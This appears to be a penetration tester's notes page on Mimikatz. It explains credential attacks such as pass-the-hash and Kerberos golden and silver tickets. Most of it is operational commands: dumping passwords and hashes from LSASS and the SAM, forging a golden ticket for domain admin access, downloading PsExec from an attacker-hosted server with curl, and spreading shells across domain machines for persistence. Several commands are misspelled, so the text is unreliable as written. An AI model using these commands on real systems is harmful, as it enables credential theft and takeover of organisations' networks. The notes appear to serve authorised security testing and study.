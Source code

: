 # [Mimikatz](https://www.varonis.com/blog/what-is-mimikatz/)

 - [Latest executable version](https://github.com/gentilkiwi/mimikatz/releases)
 
 - [Unofficail command reference and guide](https://adsecurity.org/?page_id=1821)
 
 - [Offical Mimikatz Wiki](https://github.com/gentilkiwi/mimikatz/wiki)

Mimikatz is an open-source application that allows users to view and save authentication credentials 


    Pass-the-Hash: Windows used to store password data in an NTLM hash. Attackers use Mimikatz to pass that exact hash string to the target computer to login. Attackers don’t even need to crack the password, they just need to use the hash string as is. It’s the equivalent of finding the master key to a building on the floor. You need that one key to get into all the doors.
    
    Pass-the-Ticket: Newer versions of windows store password data in a construct called a ticket.  Mimikatz provides functionality for a user to pass a kerberos ticket to another computer and login with that user’s ticket. It’s basically the same as pass-the-hash otherwise.
    
    Over-Pass the Hash (Pass the Key): Yet another flavor of the pass-the-hash, but this technique passes a unique key to impersonate a user you can obtain from a domain controller.
    
    Kerberos Golden Ticket: This is a pass-the-ticket attack, but it’s a specific ticket for a hidden account called KRBTGT, which is the account that encrypts all of the other tickets. A golden ticket gives you domain admin credentials to any computer on the network that doesn’t expire.
    
    Kerberos Silver Ticket: Another pass-the-ticket, but a silver ticket takes advantage of a feature in Windows that makes it easy for you to use services on the network. Kerberos grants a user a TGS ticket, and a user can use that ticket to log into any services on the network. Microsoft doesn’t always check a TGS after it’s issued, so it’s easy to slip it past any safeguards.
    
    Pass-the-Cache: Finally an attack that doesn’t take advantage of Windows! A pass-the-cache attack is generally the same as a pass-the-ticket, but this one uses the saved and encrypted login data on a Mac/UNIX/Linux system.

# Using mimikatz

 ### mimikatz.exe on CMD

    privilege::debug
   
   - We want to see "20 OK"
   
   - This is to check that we can bypass memory protection
   
    log nameoflog.log
    
  To log what we do.
   
   The sekursla module in Mimikatz lets you dump passwords from memory. To use the commands in the sekurlsa module, you must have Admin or SYSTEM permissions.

    sekurlsa::logonpassword

  - Notes:

        wdigest: Old way Windows stored passwords in memory from 7 and prior. Passwords were stored in clear text here. 8+ fixed this to be hashed by turing off the feature. Mimikatz can turn it back on. Once back on a new logon session will be need to occur.

[Note on what LSA (lsass.exe) is](https://en.wikipedia.org/wiki/Local_Security_Authority_Subsystem_Service)

lsadump::sam /patch

lsadump::lsa /patch


## kiki in meterpreter

 load kiwi


# Attacks

## Golden Ticket Attack

If you obtain the hash for the account that creates Kerberos tickets, then we can generate KTGT.
If this is achieved we have complete access to the domain and every machine.

**Exploit**

    lsadump::lsa /inject /name:<kerberos ticket granting account>
    
     You want to grab the SID of the domian and the NTLM hash of the account.
     
    kerberose::golden /User:<account name, existing or not> /domain:<domian> /sid:<domain SID> /<kerberos TGT account name>:<NTLM hash> /id:500 /ptt
    
      /id   #account RID
      
      /ptt  #Pass the hash
      
      
     If successful run:
     
     misc:cmd
     
   You now have an admin shell on the domain controller. Here are a few followups for persistence:
   
   - Interact with machines
   
         <command> \\<ip>\c$
         
   - Upload [psexec.exe](https://docs.microsoft.com/en-us/sysinternals/downloads/psexechttps://docs.microsoft.com/en-us/sysinternals/downloads/psexec
   ) to get full shells on other domain systems.
   
        Python web server on attacker under /user/share/windows-binaries. 
        
        Then on windows:
             
         curl http://<ip>:8000/PsExec.exe -O psexec.exe    
   
         psexec.exe \\<machine name or IP> cmd.exe  #run in golden ticket shell
         
         Note that this can take a while
   
   - Create a domain admin account
   
   - Create silver ticket
      

